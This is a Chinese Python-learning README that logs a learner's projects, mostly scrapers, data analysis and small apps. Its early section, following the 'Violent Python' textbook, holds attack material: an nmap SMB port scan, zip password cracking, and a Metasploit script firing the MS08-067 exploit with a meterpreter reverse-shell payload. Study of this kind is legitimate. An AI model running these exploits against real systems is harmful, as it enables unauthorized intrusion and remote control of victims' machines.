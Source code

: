 # learn-python
###20160510 python 灰帽编程 3   
  ip、port扫描器；生成ip段。
###20160510 python 灰帽编程 4   
  解析域名，生成用户名-口令 字典，包括根据域名生成的用户名口令。
###20160705 python绝技 
####retBanner.py
  socket扫描ip，port，通过返回的banner查询vulnerable.txt
####zippass.py
  zFile = zipfile.ZipFile('evil.zip', 'r')
  zFile.extractall(pwd='password')
  使用多线程：
  t = Thread(target = functionname, args = (args))
  t.start
####4scanner.py
  argparse解析命令行参数
  参数用-h会与默认的帮助的-h冲突
  命令行下运行时需要使用python name.py
  --portlist --后的是变量名
  nargs = '*' 可是多个变量（端口）

```python
  def findTgts(subNet):
    nmScan = nmap.PortScanner()
    nmScan.scan(subNet, '445')
    tgtHosts = []
    for host in nmScan.all_hosts():
        if nmScan[host].has_tcp(445):
            state = nmScan[host]['tcp'][445]['state']
            if state == 'open':
                print '[+] Found Target Host: ' + host
                tgtHosts.append(host)
    return tgtHosts
```
####2-5-conficker.py
  使用python nmap发现主机（扫描）
```python
  def findTgts(subNet):
    nmScan = nmap.PortScanner()
    nmScan.scan(subNet, '445')
    tgtHosts = []
    for host in nmScan.all_hosts():
        if nmScan[host].has_tcp(445):
            state = nmScan[host]['tcp'][445]['state']
            if state == 'open':
                print '[+] Found Target Host: ' + host
                tgtHosts.append(host)
    return tgtHosts
```
  使用python为metasploit配置.rc文件，操作metasploit：
```python
configFile.write('use exploit/windows/smb/psexec\n')
  ...
  configFile = open('meta.rc', 'w')
```
####2-6-freeFloat.py
  写PoC
```shell
  use exploit/windows/smb/ms08_067_netapi
  set RHOST 192.168.1.37
  set PAYLOAD windows/meterpreter/reverse_tcp
  set LHOST 192.168.77.77
  set LPORT 7777
  exploit –j –z
```
  为了利用Metasploit的攻击，我们选择我们的Exploit(exploit/windows/smb/ms08_067_netapi)，然后设置目标为192.168.1.37。接下来我们指定攻击荷载为windows/meterpreter/reverse_tcp选择反向连接到我们的192.168.77.77的7777端口上，最后我们告诉Metasploit开始攻击系统。保存配置文件为conficker.rc，我们可以通过命令
  msfconsole -r conficker.rc
  来启动我们的攻击。这个命令会告诉Metasploit根据conficker.rc来启动攻击。如果成功，我们的攻击会返回一个命令行Shell来控制对方电脑。 

####32recycle.py 
  用Python 将用户的SID 关联起来:通过检查 Windows 注册表键值HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\ProfileList\<SID>\ProfileImagePath，我们可以看到它返回 一个是%SystemDrive%\Documents and Settings\<USERID>。在下图中，我 们看到这允许我们将SID 为S-1-5-21-1275210071-1715567821-725345543- 1005 转化为用户名“alex”。
  ```python
  key = _winreg.OpenKey(_winreg.HKEY_LOCAL_MACHINE, "SOFTWARE\Microsoft\Windows NT\CurrentVersion\ProfileList\\" + sid)
              (value, type) = _winreg.QueryValueEx(key, "ProfileImagePath")
              user = value.split('\\')[-1]
  ```

###20161204 使用python抓取并分析数据—链家网(requests+BeautifulSoup)
	http://bluewhale.cc/2016-12-04/use-python-crawl-and-analysis-data-lianjia-requests-and-beautifulsoup.html
	scipy的安装问题【scipy-0.15.1-win32-superpack-python2.7.exe安装包】
	pandas入门 http://pda.readthedocs.io/en/latest/chp5.html
	sklearn 是一个 Python 的 科学计算库，提供了数种聚类算法可供选择；numpy、scipy 是 Python 的科学运算库，matplotlib 是图形库，用于绘图。http://www.jianshu.com/p/93c03a09d689
###20161220 renrendai爬虫与贷款数据分析
  画图，pandas中数据的分类统计；
  ```python
  #按贷款目的汇总贷款笔数
  title_count=rrd.groupby('title')['amount'].agg('count')
  ```
###20161227 python机器学习sklearn
  官方例子：\learn-python\sklearn\plot_digits_classification.py
  from sklearn import datasets 自带数据集
  digits = datasets.load_digits() 手写数字数据
  SVM分类，前一半训练，后一半预测（分类）
  ```python
  # Create a classifier: a support vector classifier
  classifier = svm.SVC(gamma=0.001)
  # We learn the digits on the first half of the digits
  classifier.fit(data[:n_samples / 2], digits.target[:n_samples / 2])
  # Now predict the value of the digit on the second half:
  expected = digits.target[n_samples / 2:]
  predicted = classifier.predict(data[n_samples / 2:])
  ```
  画图
  ```python
  #使用方法：subplot（m,n,p）subplot是将多个图画到一个平面上的工具。
  # 其中，m表示是图排成m行，n表示图排成n列，也就是整个figure中有n个图是排成一行的，
  # 一共m行，如果m=2就是表示2行图。p表示图所在的位置，p=1表示从左到右从上到下的第一个位置。
  plt.subplot(4, 7, index + 15)
  ```
###20170221 NYC_Taxi 使用Python分析纽约出租车搭乘数据
  Read more: http://bluewhale.cc/#ixzz4ZIpKZQqW
  pd操作
###20170222 lianjia_spider 网上的一个链家爬虫，还未测试
###20170223 pygame 未完成
###20170224 socket 用python实现的socket通信
    python socket编程详细介绍 http://blog.csdn.net/rebelqsp/article/details/22109925
    Python Socket 网络编程 http://www.cnblogs.com/hazir/p/python_socket_programming.html
    input()与raw_input()：最好用raw_input();
    用socket.sendall();

###20170404 花瓣网图片爬虫     <font color=OrangeRed>好！！！</font>
    learn-python\qiubai_crawler、4_grab_huaban_board.py 
    不错的代码，print color函数；多线程；
    ```python
    #get ajax pin data 异步（下拉加载更多）
    url = "http://huaban.com/boards/%s/?max=%s&limit=100&wfl=1" %(board, pins[-1])
    
    # 详细使用文档请参考: http://www.saintic.com/blog/204.html
    # user（用户） 下有 board（画板），再下有pin（图片）
    # http://huaban.com/boards/%s/?limit=100 在下拉加载更多的页面上直接请求100个
    # url = "http://huaban.com/boards/%s/?max=%s&limit=100&wfl=1" %(board, pins[-1]) 请求到max=pins[-1]个 即最后一个。最多100个
    ```

###scan_ips_ports结合了正则、socket等的简单扫描器

###toutiao spider 通过保存toutiao的图片学用mongodb

###CmdPipe 输出重定向、logging模块

###20170510 调用shodan 

###20170510 Scanless
使用以下几个网站进行扫描：
Scanner Name   | Website
---------------|------------------------------
yougetsignal   | http://www.yougetsignal.com
viewdns        | http://viewdns.info
hackertarget   | https://hackertarget.com
ipfingerprints | http://www.ipfingerprints.com
pingeu         | http://ping.eu
spiderip       | https://spiderip.com
portcheckers   | http://www.portcheckers.com


###20170515 smart_login
 [转]
本项目用于研究和分享各大网站的模拟登陆方式,主要使用selenium+phantomjs或者直接登录的方式,语言采用Python
可以在登录过后得到的cookie维护起来，然后调用requests或者scrapy等进行数据采集，这样数据采集的速度可以得到保证。

###20170519 data_analyse\tableau
蓝鲸的网站分析笔记 使用python和tableau对数据进行抓取及可视化 http://bluewhale.cc/2017-05-05/use-python-and-tableau-to-capture-and-visualize-the-data.html

### 20170726 70个Python练手项目列表 实验楼 1 图片转字符画：将256灰度映射到70个字符上
```python
from PIL import Image  # sudo pip install pillow
```
### 20170808 70个Python练手项目列表 实验楼 2 实现2048游戏 https://www.shiyanlou.com/courses/368/labs/1172/document
有限状态机，矩阵转置、列表遍历等基本数据操作
### 20170814 70个Python练手项目列表 实验楼 3 Python3 实现火车票查询工具
分析了最新的返回数据格式。
### 20170828 70个Python练手项目列表 实验楼 4 高德API+Python解决租房问题
调用高德API
index.html代码可能过时，功能未实现。待研习其代码。
### 20170831 70个Python练手项目列表 实验楼 6 Python 破解验证码
Pillow 模块
向量空间图像识别：你有 3 篇文档，我们要怎么计算它们之间的相似度呢？2 篇文档所使用的相同的单词越多，那这两篇文章就越相似！但是这单词太多怎么办，就由我们来选择几个关键单词，选择的单词又被称作特征，每一个特征就好比空间中的一个维度（x，y，z 等），一组特征就是一个矢量，每一个文档我们都能得到这么一个矢量，只要计算矢量之间的夹角就能得到文章的相似度了。
### 20170831 70个Python练手项目列表 实验楼 10 Python基于共现提取《釜山行》人物关系
<font color=red>Gephi</font>是一款开源免费跨平台基于JVM的<font color=red>复杂网络分析</font>复杂网络分析软件,，其主要用于各种网络和复杂系统，动态和分层图的交互可视化与探测开源工具。
py程序生成了节点数据和节点间边的数据（带weight），导入Gephi后可进行可视化。有节点大小、颜色、边的粗细，以及动态效果。
### 20170913 70个Python练手项目列表 实验楼 16 PyQt实现简易浏览器
```python
	# 设置窗口标题
	self.setWindowTitle('My First App')
	# 设置标签
	label = QLabel('Welcome to Shiyanlou!')
# 创建应用实例，通过 sys.argv 传入命令行参数
app = QApplication(sys.argv)
# 创建窗口实例
window = MainWindow()
# 显示窗口
window.show()
# 执行应用，进入事件循环
app.exec_()
```













